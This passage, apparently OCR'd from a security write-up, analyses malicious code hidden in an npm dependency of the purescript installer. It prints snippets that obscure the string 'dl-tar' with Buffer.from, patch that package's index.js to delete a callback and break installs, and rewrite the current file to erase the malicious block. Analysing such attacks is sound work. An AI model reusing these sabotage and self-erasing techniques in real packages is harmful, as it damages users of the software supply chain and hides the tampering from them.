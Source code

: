 ```javascript
  );
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}
```

After the `do`-`while` loop, in the case where the exploit code is going to
run, it first resolves the path of the `dl-tar` package on the local
filesystem; note the use of `Buffer.from` to obscure this:

```javascript
> Buffer.from([100, 108, 45, 116, 97, 114]).toString()
'dl-tar'
```

The file path of `index.js` from the `dl-tar` package will now be stored in the
`px` variable. Then, we have this:

```javascript
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
```

which rewrites the current file to remove the malicious code, presumably also
in order to make this exploit harder to track down. Finally, we have this:

```javascript
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
```


[@shinnn]: https://github.com/shinnn
[@doolse]: https://github.com/doolse
[`rate-map`]: https://npmjs.com/package/rate-map
[`load-from-cwd-or-npm`]: https://npmjs.com/package/load-from-cwd-or-npm
[purescript/npm-installer#12]: https://github.com/purescript/npm-installer/issues/12